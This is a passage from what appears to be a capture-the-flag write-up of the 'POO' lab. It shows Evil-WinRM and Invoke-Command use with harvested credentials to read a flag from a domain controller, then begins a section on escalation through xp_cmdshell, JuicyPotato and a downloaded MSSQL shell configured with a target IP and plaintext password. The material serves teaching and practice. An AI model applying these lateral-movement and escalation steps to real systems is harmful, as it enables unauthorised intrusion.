     
    *Evil-WinRM* PS C:\programdata> type \\DC.intranet.poo\c$\users\mr3ks\desktop\flag.txt
    POO{1196ef8b************************}
    

I could also do the same thing using PowerShell `Invoke-Command`:

    
    
    *Evil-WinRM* PS C:\programdata> invoke-command -computername dc -scriptblock { dir C:\users\mr3ks\desktop } -credential $cred
    
    
        Directory: C:\users\mr3ks\desktop
    
    
    Mode                LastWriteTime         Length Name                                                                                                 PSComputerName
    ----                -------------         ------ ----                                                                                                 --------------
    -a----        3/26/2018   5:47 PM             37 flag.txt                                                                                             dc
    
    
    *Evil-WinRM* PS C:\programdata> invoke-command -computername dc -scriptblock { gc C:\users\mr3ks\desktop\flag.txt } -credential $cred
    POO{1196ef8b************************}
    

## Beyond Root - Long Way to Administrator Shell

Once I had `xm_cmdshell` in MSSQL, I wandered a good bit before finding that I
could WinRM with the administrator creds. The path I took involved using
JuicyPotato to get SYSTEM and then creating an admin account.

### Command Shell Upgrade

Executing commands in `mssqlclient` isn’t too bad - I can up arrow, change out
the one line in quotes. Still, having something that acts like a shell is much
nicer, and as enumeration wasn’t showing me much at first, I wanted an
upgrade. Googling for “python mssql shell”, the first result was [MSSQL shell
with file upload capability](https://alamot.github.io/mssql_shell/). I’ll
download this, and update the section the defines the connection:

    
    
    MSSQL_SERVER="10.13.38.11"
    MSSQL_USERNAME = "df"
    MSSQL_PASSWORD = "qwe123QWE!@#"
    

The only other change I made was to the prompt. The original shell will print:

    
    
    CMD MSSQL$POO_PUBLIC@COMPATIBILITY C:\WINDOWS\system32>
    

That’s more text than I want, especially to go into a blog post where the
commands will flow off the screen. So I updated it:

    